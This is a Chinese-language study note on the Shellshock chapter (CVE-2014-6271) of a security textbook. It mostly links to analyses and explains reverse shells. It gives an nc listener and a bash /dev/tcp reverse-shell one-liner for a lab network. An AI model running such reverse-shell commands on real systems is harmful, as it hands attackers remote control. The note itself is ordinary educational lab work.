

来源：《Computer Security》A Hands-on Approach   --- Wenliang Du

**Chapter03 Shellshock  Attack**

书上的内容是很好的。这里仅仅做个学习笔记。

这是实打实的一个以前的漏洞。能复现这个漏洞，感觉还不错。

**这个漏洞修复了，便没有。所以，这一章节Shellshock Attack 不是重点。reverse shell 是重点。**

还有便是要补充PHP与数据库。

比较尴尬的是，虽然复现了bash的漏洞；单独使用了反弹shell；但是CGI+bash4.1+reverse shell 并没有得到复现。

**这一章的思路：bash的漏洞介绍 + 符合利用漏洞的CGI + 使用reverse shell**

---

[toc]

# 漏洞“破壳”（CVE-2014-6271）分析

网上的文章，已经写的相当清楚了。

[Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](https://www.antiy.com/response/CVE-2014-6271.html)

上面文章的条理性很好。

漏洞的编号+发布的时间+受影响的平台及版本+影响范围+漏洞原理+漏洞验证方法+漏洞的影响+漏洞的修复。

现在如果想复现这个实验，可以参考：[详解ShellShock 漏洞复现原理，内附ShellShock的修复方法](https://blog.csdn.net/Anprou/article/details/72819989#t4)

<br>

<br>

# CGI 介绍

略。我不懂。可以参考：[万法归宗——CGI](https://zhuanlan.zhihu.com/p/25013398) 、[cgi原理 ](https://langzi989.github.io/2017/05/04/cgi%E5%8E%9F%E7%90%86/)

<br>

<br>

# shell 反弹

参考：[shell 反弹总结](https://www.cnblogs.com/bonelee/p/11156338.html)

>想要搞清楚这个问题，首先要搞清楚什么是反弹，为什么要反弹。
假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。

> 那么什么情况下正向连接不太好用了呢？
> 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。它的ip会动态改变，你不能持续控制。
> 2.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
> 3.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

反弹就很好理解了， 攻击者指定服务端，**受害者主机主动连接攻击者的服务端程序**，就叫反弹连接。

我目前晓得是上面使用的皮毛。

文件描述符与重定向，可以参考：[Linux 标准文件描述符](https://www.cnblogs.com/zoulongbin/p/7080324.html)

```shell
#attack machine :10.0.2.6
#监听8080端口（可以换个端口，这个端口比较常见）
nc -lvvp 8080
```

```shell
#victim machine :10.0.2.5
bash -i > /dev/tcp/10.0.2.6/8080 0<&1 2>&1
```





# 参考文章

--漏洞参考：

[Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](https://www.antiy.com/response/CVE-2014-6271.html)

[详解ShellShock 漏洞复现原理，内附ShellShock的修复方法](https://blog.csdn.net/Anprou/article/details/72819989#t4)

--CGI参考：（没咋看懂）

[万法归宗——CGI](https://zhuanlan.zhihu.com/p/25013398)

[cgi原理 ](https://langzi989.github.io/2017/05/04/cgi%E5%8E%9F%E7%90%86/)

--反弹shell:

[【技术分享】linux各种一句话反弹shell总结——攻击者指定服务端，受害者主机（无公网IP）主动连接攻击者的服务端程序（CC server），开启一个shell交互，就叫反弹shell。](https://www.cnblogs.com/bonelee/p/11156338.html)

--其他

[在腾讯云 Ubuntu18.04 安装配置 MySQL 5.7（踩坑警告⚠️）](https://zhuanlan.zhihu.com/p/77765825)

[Linux 标准文件描述符](https://www.cnblogs.com/zoulongbin/p/7080324.html)

[CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)